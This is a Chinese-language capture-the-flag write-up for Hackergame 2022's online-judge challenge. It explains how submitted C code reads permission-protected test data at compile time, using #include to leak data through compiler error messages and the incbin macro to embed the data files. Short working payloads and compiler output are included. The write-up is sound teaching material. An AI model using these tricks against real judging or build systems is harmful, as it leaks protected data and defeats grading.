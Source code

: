 # 安全的在线测评

题解作者：[ldeng](https://github.com/ldeng-ustc)

出题人、验题人、文案设计等：见 [Hackergame 2022 幕后工作人员](https://hack.lug.ustc.edu.cn/credits/)。

## 题目描述

- 题目分类：general

- 题目分值：无法 AC 的题目（150）+ 动态数据（250）

传说科大新的在线测评系统（Online Judge）正在锐意开发中。然而，新 OJ 迟迟不见踪影，[旧的 OJ](https://oj.ustc.edu.cn/) 和[更旧的 OJ](http://acm.ustc.edu.cn/ustcoj/) 却都已经停止了维护。某 2022 级计算机系的新生小 L 等得不耐烦了，当即表示不就是 OJ 吗，他 10 分钟就能写出来一个。

**无法 AC 的题目**

为了验证他写的新 OJ 的安全性，他决定在 OJ 上出一道不可能完成的题目——大整数分解，并且放出豪言：只要有人能 AC 这道题，就能得到传说中的 flag。当然，因为目前 OJ 只能运行 C 语言代码，即使请来一位[少年班学院的天才](https://github.com/ustclug/hackergame2018-writeups/tree/master/official/RSA_of_Z#%E8%A7%A3%E6%B3%95-1)恐怕也无济于事。

**动态数据**

为了防止数据意外泄露，小 L 还给 OJ 加入了动态数据生成功能，每次测评会随机生成一部分测试数据。这样，即使 OJ 测试数据泄露，攻击者也没办法通过所有测试样例了吧！（也许吧？）

判题脚本：[下载](files/online_judge.py)

你可以通过 `nc 202.38.93.111 10027` 来连接题目，或者点击下面的 "打开/下载题目" 按钮通过网页终端与远程交互。

> 如果你不知道 `nc` 是什么，或者在使用上面的命令时遇到了困难，可以参考我们编写的 [萌新入门手册：如何使用 nc/ncat？](https://lug.ustc.edu.cn/planet/2019/09/how-to-use-nc/)

## 题解

这题考察编译期未加权限限制导致的数据泄露。

静态和动态的测试数据分别位于 `../data/static.in/out` 和 `../data/dynamic{i}.in/out`（因为用户代码编译时在）。由于提交的程序是以 `runner` 用户的身份运行的，且数据文件的权限都是 `700`，直接在提交程序里尝试读取这些文件会权限不足。但是，仔细阅读代码可以发现，OJ 程序在编译用户提交的代码时，并没有加入权限限制，这就给了我们在编译期读取数据文件的机会。（如果参加了去年的 hackergame，会记得去年的题目 [amnesia](https://github.com/USTC-Hackergame/hackergame2021-writeups/tree/master/official/Amnesia) 同样是编译用户提交的代码并执行的，对比两题的代码也能发现，去年的题目在编译和运行时都使用了特殊的用户。事实上，本题的代码就是在 amnesia 的基础上修改的。）

### 无法 AC 的题目

第一个 flag 只需通过一组静态样例就能获得，静态样例每次测试是不会改变的，所以我们只需要想办法得到 `./data/static.out` 的内容就可以了。在编译期读取文件最简单的方法就是使用 `#include`，同时，由于 OJ 程序直接将编译错误转发到了标准输出，我们只需要在数据文件的每一行构造出编译错误，就能从编译器的错误提示中拿到每一行的数据。而我们知道 `static.out` 中只有两行，每行是个大整数，所以这个任务非常简单，使用以下两个文件即可：

```c
// payload1-1.c
#include "../data/static.out"
```

```c
// payload1-2.c
int a = 
#include "../data/static.out"
```

由于单独一个整数显然不是合法的 C 语言程序，直接包含整个数据文件就能使编译器在第一行出错。要使错误出现在第二行也很简单，使第一行变得合法即可（上面的例子中是将第一作为变量定义的一部分，也有很多其它方法）。分别提交两个文件，得到以下输出：

```
In file included from ./temp/code.c:2:
./temp/../data/static.out:1:1: error: expected identifier or ‘(’ before numeric constant
    1 | 9760010330994056474520934906037798583967354072331648925679551350152225627627480095828056866209615240305792136810717998501360021210258189625550663046239919
      | ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
静态数据测试： Compile Error
```


```
In file included from ./temp/code.c:4:
./temp/../data/static.out:2:1: error: expected ‘,’ or ‘;’ before numeric constant
    2 | 10684702576155937335553595920566407462823007338655463309766538118799757703957743543601066745298528907374149501878689338178500355437330403123549617205342471
      | ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
静态数据测试： Compile Error
```

可以看到，编译错误里直接包含了两行数据，提交程序直接输出两行数据即可得到第一个 flag。

```c
// payload1-3.c
#include<stdio.h>
const char* p="9760010330994056474520934906037798583967354072331648925679551350152225627627480095828056866209615240305792136810717998501360021210258189625550663046239919";
const char* q="10684702576155937335553595920566407462823007338655463309766538118799757703957743543601066745298528907374149501878689338178500355437330403123549617205342471";

int main() {
    printf("%s\n%s\n", p, q);
    return 0;
}

```

### 动态数据

第二个 flag 较为复杂，要求我们通过 5 组动态数据的测试。所有动态数据都是在每次提交代码编译前生成好的，所以我们仍然可以在编译时读到文件内容，但因为每次提交数据会改变，像第一个 flag 那样得到每个文件的内容再构造代码是行不通的。一个简单的想法是，用 `#include` 将两个数字都作为合法 C 语言代码的一部分，但是我并没有成功构造出来，搜索到的一些例子尝试了一下也没有成功，如果有人使用这种办法完成本题的，也欢迎提交自己的 writeup。

另一个想法也是本题的预期解，即将在编译期将文件作为字符串常量导入程序中，然后在运行时对比输入，选择合适的答案输出。在编译期将二进制文件作为 const char 或者 string 导入程序理论上应该是很常见的需求，但目前 C 和 C++ 都没有官方实现这样的特性，通常需要用 `xxd` 等命令实现，很不方便。然而，有一条汇编指令 `.incbin` ，却能够在汇编期完成这个任务，该汇编指令可以把文件按原样拷贝到汇编代码之中。

直接使用 `.incbin` 指令对不熟悉汇编的人（比如我）来说可能比较困难，还好 github 上的 [incbin](https://github.com/graphitemaster/incbin) 项目，将该指令封装成了易用的宏。使用这个项目构造出如下代码，即可将动态数据输入输出文件文本作为字符串分别保存到 `in` 和 `out` 数组中：

```c
#include "incbin.h"

#define PATH_PREFIX "./data/dynamic"
#define inc_in(i) INCTXT(in##i, PATH_PREFIX #i ".in")
#define inc_out(i) INCTXT(out##i, PATH_PREFIX #i ".out")

inc_in(0);
inc_in(1);
inc_in(2);
inc_in(3);
inc_in(4);
inc_out(0);
inc_out(1);
inc_out(2);
inc_out(3);
inc_out(4);

const char *in[5] = {gin0Data, gin1Data, gin2Data, gin3Data, gin4Data};
const char *out[5] = {gout0Data, gout1Data, gout2Data, gout3Data, gout4Data};

```

然后加入代码将标准输入和 `in` 数组比较，选择正确的输出打印即可。（要注意，需要手动把 `incbin.h` 粘贴在上述代码前，毕竟 OJ 的环境里没有这个头文件。如果嫌代码很长，也可以先用 `gcc -E` 预处理上述代码，把预处理后的定义部分摘出来，可以参考 [payload2-2.c](src/payload/payload2-2.c)，是使用该方法处理后的完整 payload）。

本题 flag2 中提到的 [P1040 std::embed](https://www.open-std.org/jtc1/sc22/wg21/docs/papers/2020/p1040r6.html) 是 C++ 的一个提案，希望解决的就是上述编译期导入二进制文件的问题，但是很遗憾两年过去还是没有进入 C++23。（现在该提案分出了 [P1967](https://www.open-std.org/JTC1/SC22/WG21/docs/papers/2022/p1967r5.html) `#embed` 提案，也不知道什么时候能进标准。）如果这两篇提案未来能够成功进入标准，那本题可能就只需要 `std::embed("dynamic0.out")` 就搞定了（想得美）。如果你既没有听过 `.incbin` 也没有听过 incbin 项目，那你在搜索类似 `compile time import file as string` 等关键字的时候，可能也会找到这篇提案，然后在提案的引用中找到 [incbin](https://github.com/graphitemaster/incbin) 的链接，不过混在一堆 `xxd` 等方案里，可能确实有些难找。

本题解用到的所有 payload 都在 `src/payload` 目录下，可以自行查阅。
